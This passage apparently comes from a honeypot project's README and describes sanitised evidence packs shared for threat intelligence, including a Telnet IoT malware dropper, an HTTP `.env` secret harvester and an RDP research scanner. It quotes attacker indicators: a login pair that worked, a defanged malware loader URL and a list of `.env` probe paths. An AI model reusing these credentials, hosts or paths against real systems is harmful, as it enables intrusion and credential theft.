speaks from. They survive the attacker changing address, so they correlate where
an IP list would not. Every bundle carries them when Arkime's JA4+ plugin has
seen the session.


<!-- SCREENSHOT: the imported event in MISP with objects expanded. -->

The console produces a MISP core-format JSON file. I import it; MISP does the
rest. There is no API push and no live integration — deliberately, because a file
is reviewable before it leaves and an API call is not.

---

## So where does that leave the workflow?

Map view → biggest circle → one session → bundle. Four clicks from "something is
loud today" to a sanitised, verifiable evidence pack with the packets inside it.

That is the part I did not expect. I set out to build an archive of attacker
PCAPs and assumed the hard problem would be capture. It wasn't — the hard problem
was **selection**, and it turned out to be solvable with three HTTP parameters
and some care about what a "session" actually means. Everything downstream was
already built by people better at it than me.

---

## Sharing is caring

### Want to get your feet wet?

Three evidence packs are published in **[`/reports`](reports/)**. They are real
traffic from a live sensor, sanitised, and self-contained — no account, no
platform, no signup.

**What is in each pack**

| File | Purpose |
|---|---|
| `capture.pcap` | The packets. Open in Wireshark, tshark, Zeek, Suricata — whatever you use. |
| `report.pdf` | The analysis, written up: identity, activity summary, credentials, commands, files, and the exact query used to cut the capture. |
| `iocs.json` / `iocs.yaml` | The indicators, machine-readable. Same content, two formats — pick whichever your tooling likes. |
| `misp-event.json` / `.yaml` | MISP core format. Import directly (Event ▸ Import from ▸ MISP JSON). |
| `SHA256SUMS` | `sha256sum -c SHA256SUMS` — verify nothing changed in transit. |
| `MANIFEST.txt` | Digests, the Arkime expression and window, and handling notes. |

**The three packs**

**1 · Telnet — IoT malware dropper**
[`rpot-42_232_28_201-20260719T165926Z-sanitised.zip`](reports/rpot-42_232_28_201-20260719T165926Z-sanitised.zip)
*China Unicom · one session · 8 seconds · 7.6 KB PCAP*

The actor from the case study above, caught again later the same day. Login
`admin / cat1029` accepted, then the full eleven-command sequence: shell-probe
cascade, writable-directory hunt, BusyBox loader, marker echo. Payload SHA256
`f1de8620…`.

Note the loader host is `hxxp://90.224.208.190:36646/i` — **a different one** from
the capture earlier that day. Same actor, same script, new infrastructure within
hours. That contrast is the entire argument for sharing hashes and fingerprints
rather than addresses, and you can see both halves of it in the published data.

**2 · HTTP — `.env` secret harvester**
[`rpot-80_94_95_211-20260719T170716Z-sanitised.zip`](reports/rpot-80_94_95_211-20260719T170716Z-sanitised.zip)
*Romania, AS204428 SS-Net · multi-session · 88 KB PCAP · AbuseIPDB 100*

No logins, no commands — pure HTTP enumeration. 55 unique paths, every one a
variant of `.env` or a config file, walked across framework layouts:
`/laravel/.env`, `/app_dev.php/_profiler/.env`, `/twilio/.env.php`,
`/sendgrid/.env.php`, `/wp-content/.env`, `/.env.production.local`. Somebody
harvesting cloud and SMTP credentials from careless deployments.

This one carries a **JA4H** fingerprint, which is the interesting part: the path
list is trivially changed, the way its HTTP client orders headers is not.

**3 · RDP — research scanner**
[`rpot-66_228_35_180-20260719T170945Z-sanitised.zip`](reports/rpot-66_228_35_180-20260719T170945Z-sanitised.zip)
*Akamai Connected Cloud · one session · 11 seconds · 2.6 KB PCAP*

rDNS `prod-beryllium-us-east-59.li.binaryedge.ninja` — internet-wide research
scanning. Connect, an authentication attempt, disconnect. No commands, no
payload.

Included deliberately as the **baseline**: knowing what a low-substance session
looks like on the wire is what makes the other two legible. It is also a small
lesson in reputation feeds — it scores 100 on AbuseIPDB, the same as the `.env`
harvester, while doing something entirely different.

---

Hope this is useful — and if it nudges anyone into building something similar,
even better. The components are all free, the hardware is a Pi and a small
appliance, and the internet supplies the test data for you, continuously, whether
you asked for it or not.

If you are looking for professionals in networking and security — or want to
build these skills yourself — have a look at **#anyweb** and **#anywebtraining**.

<!-- ────────────────────────────────────────────────────────────────────────
     SCREENSHOTS REFERENCED BY THIS DOCUMENT  (docs/img/)

     console-live-log.png        Live log mid-flow, filter chips visible
     console-events.png          Event list filtered to one event type
     console-attackers.png       Attacker list sorted by volume
     console-map.png             Map with one dominant circle on telnet
     console-sessions.png        Session list with the Activity tier column
     console-attacker-detail.png Detail panel: activity panels + Arkime bar
     wireshark-stream.png        Follow TCP Stream on the telnet session
     misp-event.png              Imported event in MISP, objects expanded

     Already in place: banner.png, architecture.png, report-3pages.png

     BEFORE PUBLISHING ANY SCREENSHOT: check for the sensor's own IP/hostname,
     the Arkime host, and any worker ID. The bundle sanitiser does not cover
     screenshots. For the Wireshark shot, use a capture from a SANITISED bundle
     so the visible addresses are already 192.0.2.x.
     ──────────────────────────────────────────────────────────────────────── -->
